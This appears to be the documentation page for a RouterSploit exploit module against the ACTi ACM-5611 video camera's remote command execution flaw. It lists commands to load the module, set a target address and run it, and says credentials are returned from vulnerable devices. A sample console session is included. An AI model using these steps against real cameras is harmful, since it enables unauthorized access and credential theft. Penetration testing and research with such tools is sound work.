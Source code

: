 ## Description

Module exploits ACTi ACM-5611 Video Camera Remote Command Execution Exploit.

## Verification Steps


  1. Start ./rsf.py
  2. use exploits/cameras/acti/acm_5611_rce
  3. set target 192.168.1.1
  4. run
  5. If device is vulnerable user credentials are returned.

## Scenarios

```
rsf > use exploits/cameras/acti/acm_5611_rce
rsf (JACTi ACM-5611 Video Camera RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (JACTi ACM-5611 Video Camera RCE) > run
[*] Running module...
[+] Target seems to be vulnerable